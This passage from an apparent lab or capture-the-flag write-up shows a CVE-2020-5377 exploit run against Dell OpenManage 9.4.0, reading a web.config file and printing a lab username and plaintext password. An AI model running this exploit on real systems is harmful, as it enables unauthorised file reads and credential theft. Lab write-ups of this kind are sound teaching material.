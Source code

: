 
walking through the web hosted on port 1311 we saw that it is running a vulnerable version of `dell openmanage 9.4.0`


**exploit**

![d51659c52fc2c7df033b17a3fd6a8b4a.png](../images/d51659c52fc2c7df033b17a3fd6a8b4a.png)


I have used 3 different exploits for this because the first 2 wont read `C:\inetpub\wwwroot\hacksmartersec\web.config`  when I try to read .. the one that worked was from rhinolabs


```

└─$ python3 cve-2020-5377.py 10.9.188.76 10.10.28.141:1311
Session: 9479AF66A4563BE5EEADC1028904D437
VID: 0AB5613D128BC249
file > C:\inetpub\wwwroot\hacksmartersec\web.config
Reading contents of C:\inetpub\wwwroot\hacksmartersec\web.config:
<configuration>
  <appSettings>
    <add key="Username" value="tyler" />
    <add key="Password" value="IAmA1337h4x0randIkn0wit!" />
  </appSettings>
  <location path="web.config">
    <system.webServer>
      <security>
        <authorization>
          <deny users="*" />
        </authorization>
      </security>
    </system.webServer>
  </location>
</configuration>

```
